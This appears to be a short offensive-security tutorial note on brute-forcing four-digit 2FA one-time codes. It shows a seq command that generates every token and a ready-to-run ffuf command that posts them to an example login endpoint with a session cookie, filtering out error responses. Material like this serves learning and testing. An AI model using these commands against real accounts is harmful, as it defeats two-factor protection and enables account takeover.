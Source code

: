 # Brute-Forcing 2FA codes
***
### Attacking Two-Factor Authentication (2FA)
#### The most common 2FA implementations depends on the user's password and a time-based one-time password (TOTP) sent to the user's smartphone by an authenticator app or through SMS. Mostly TOPs consist of digits, making them easily guessable if there isn't any measure implemented against successive submissions of incorrect tokens.
#### Example of a brute-force attack against a web application secured with 2FA and expecting a TOTP token of 4 digits
#### Firstly, we generate a wordlist containing all 4-digit numbers from 0000 to 9999:
```bash
$ seq -w 0 9999 > tokens.txt
```
#### Then we use ffuf to brute-force the correct TOTP by filtering out responses containing the **Invalid 2FA code** error message.

```bash
$ ffuf -w ./tokens.txt -u http://qwerty.gg/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=kbfvm3b0dh1ibgha7ifd0hr7o55" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```